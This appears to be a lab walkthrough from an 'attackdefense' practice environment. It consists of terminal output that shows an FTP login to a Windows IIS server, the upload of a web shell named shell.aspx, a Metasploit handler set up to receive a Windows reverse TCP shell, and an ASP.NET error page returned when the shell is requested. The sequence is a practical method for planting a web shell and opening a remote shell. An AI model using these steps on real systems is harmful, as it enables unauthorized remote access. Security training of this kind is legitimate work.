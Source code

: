 ```
root@attackdefense:~# ftp 10.0.26.121 21
Connected to 10.0.26.121.
220 Microsoft FTP Service
Name (10.0.26.121:root): vagrant
331 Password required for vagrant.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49422|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************************************************************************************| 38255       11.39 MiB/s    --:-- ETA
226 Transfer complete.
38255 bytes sent in 00:00 (4.64 MiB/s)
ftp> dir
229 Entering Extended Passive Mode (|||49424|)
125 Data connection already open; Transfer starting.
10-28-21  07:22AM       <DIR>          aspnet_client
10-28-21  07:19AM                   28 caidao.asp
10-28-21  07:18AM                34251 hahaha.jpg
10-28-21  07:18AM              1116928 index.html
10-28-21  07:18AM              2439511 seven_of_hearts.html
04-30-23  05:28AM                38255 shell.aspx
10-28-21  07:18AM               384916 six_of_diamonds.zip
10-28-21  07:22AM               184946 welcome.png
226 Transfer complete.
ftp> 
```

```
root@attackdefense:~# msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.4
LHOST => 10.10.16.4
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.4:1234 

```

```
http://10.0.26.121/shell.aspx
```

```
Server Error in '/' Application.
Runtime Error
Description: An application error occurred on the server. The current custom error settings for this application prevent the details of the application error from being viewed remotely (for security reasons). It could, however, be viewed by browsers running on the local server machine.

Details: To enable the details of this specific error message to be viewable on remote machines, please create a <customErrors> tag within a "web.config" configuration file located in the root directory of the current web application. This <customErrors> tag should then have its "mode" attribute set to "Off".


<!-- Web.Config Configuration File -->
```